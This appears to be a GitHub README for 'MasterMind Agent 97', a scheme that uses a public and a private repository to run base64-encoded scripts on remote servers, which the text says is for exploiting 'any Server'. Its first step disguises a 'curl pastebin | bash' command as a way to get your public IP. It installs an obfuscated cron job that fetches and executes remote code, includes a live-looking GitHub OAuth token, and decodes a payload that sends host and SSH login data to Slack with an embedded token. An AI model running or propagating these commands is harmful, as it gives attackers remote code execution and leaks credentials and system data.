 #### Welcome  [ MasterMind Agent 97 ]

Let's Explore **MasterMind Agent 97**

Run below command to Get Your Public IP.
```bash
  # Retrive Your Public IP
  curl -s https://pastebin.com/raw/DGbDe6LZ|bash -
```

##### Step 1

Create Script and encode with base64
```bash
# /tmp/script.sh
#!/bin/bash
echo "hello World"
ifconfig
ls -la
pwd
```

##### Encode with Base64
Create `mm.key` file using below command  and commit this file in `MasterMind` repository.
```bash
# Command will create encoded file mm.key
 base64 /tmp/script.sh > <MasterMind Repo>/mm.key
```


#### Lets Explore More about Backend Concept.

##### How to install MasterMind Agent
We require to configure below command on remote machine. we can configure cron to execute periodically.

```bash
# below commmand should be run from remote machine.
#vim vim /etc/cron.daily/mm
eval $(echo "Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg=="|base64 -d|bash -)
```
#### Layars Decode :

 1. Decoded `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

 ```bash
#curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
echo "curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d"|base64

 # output
Y3VybCAtc0wgaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3N3dXhlbi9sSS9tYXN0ZXIvcy50eHR8YmFzZTY0IC1kCg==
 ```

 2. Decoded : `curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d`

  ```bash
  # data s.txt
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt

  # output: Encoded : s.txt
  Y3VybCAtc0wgLXUgYTgwNDczMTg1YjNmYTM2NTNiMmZjNmMzYzJjMjY5OWRjY2M1NWFjNzp4LW9hdXRoLWJhc2ljIGh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9zd3V4ZW4vbWFzdGVybWluZC9tYXN0ZXIvbW0ua2V5fGJhc2U2NCAtZHxiYXNoIC0K

  # Decoding s.txt file
  curl -sL https://raw.githubusercontent.com/swuxen/lI/master/s.txt|base64 -d
  # output : Decoded : s.txt
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -

  ```

 3. Decoded : `curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d|bash -`
  ```bash
  # File data : mm.key file
  curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key

  # output :
  IyEvYmluL2Jhc2gKZXhwb3J0IFNMQUNLX0NMSV9UT0tFTj0neG94Yi05NTI4MjkzMTc2MzUtOTU3
  OTQ3MTQxNjk5LUdVWXJFM2I2ZXhIWmNvS3dQaDM0QVlTYycKZXhwb3J0IFNMQUNLX0NIQU5ORUw9
  IiNkZXZvcHMiClNMQUNLX0JJTj0iL3Vzci9iaW4vbXNsYWNrIgpnZXRfc2VydmVyX2luZm8oKXsK
  ICBleHBvcnQgUFJJVkFURV9JUD0kKGhvc3RuYW1lIC1JKQogIGV4cG9ydCBQVUJfSVA9JChjdXJs
  IC1zIGljYW5oYXppcC5jb20pCiAgZXhwb3J0IFRJTUVTVEFNUD0kKGRhdGUpCn0KZ2V0X3VzZXJf
  ZGF0YSgpewogIGxvZ19wYXRoPS90bXAvdWluZm8ubG9nCiAgZ2V0X3NlcnZlcl9pbmZvCiAgZWNo
  byAiCkEgU1NIIGxvZ2luIHdhcyBzdWNjZXNzZnVsLCBzbyBoZXJlIGFyZSBzb21lIGluZm9ybWF0
  aW9uIGZvciBzZWN1cml0eToKICAgIFVzZXIgICAgICAgICAgIDogICRVU0VSCiAgICBVc2VyIElQ
  IEhvc3QgICA6ICAke1NTSF9DTElFTlQvICp9CiAgICBEYXRlICAgICAgICAgICA6ICAke1RJTUVT
  VEFNUH0KICAgIEhvc3RuYW1lICAgICAgIDogIGBob3N0bmFtZWAKICAgIFNlcnZlciBJUCAgICAg
  IDogICR7UFVCX0lQfSB8ICR7UFJJVkFURV9JUH0KCiAgICBXZSB3aWxsIG5vdGlmeSB5b3Ugb25j
  ZSB1c2VyWyRVU0VSXSB3aWxsIGVuZCBzZXNzaW9uLgogICIgPiAke2xvZ19wYXRofQoKICBpZiBb
  WyAtZiAiJHtsb2dfcGF0aH0iIF1dOyB0aGVuCiAgICBjYXQgJHtsb2dfcGF0aH0gfCAke1NMQUNL
  X0JJTn0gY2hhdCBzZW5kIC0tY2hhbm5lbCAiJHtTTEFDS19DSEFOTkVMfSIgXAogICAgICAtLXRp
  dGxlICJTU0ggbG9naW4gc3VjY2Vzc2Z1bCAtICR7VVNFUn1AJHtQUklWQVRFX0lQfSBvbiAke1RJ
  TUVTVEFNUH0iIFwKICAgICAgLS1jb2xvciBnb29kID4gL2Rldi9udWxsIDI+JjEKICAgIHJtIC1m
  ICR7bG9nX3BhdGh9CiAgZmkKfQpnZXRfdXNlcl9kYXRhCg==

  # Decoding mm.key
   curl -sL -u a80473185b3fa3653b2fc6c3c2c2699dccc55ac7:x-oauth-basic https://raw.githubusercontent.com/swuxen/mastermind/master/mm.key|base64 -d

   # Decoded output : /tmp/script.sh | mm.key
   #!/bin/bash
   echo "hello World"
   ifconfig
   ls -la
   pwd
  ```

We are using two repository to exploit any Server.

- Public Repository -  https://github.com/swuxen/lI.git
- Private Repository - https://github.com/swuxen/mastermind
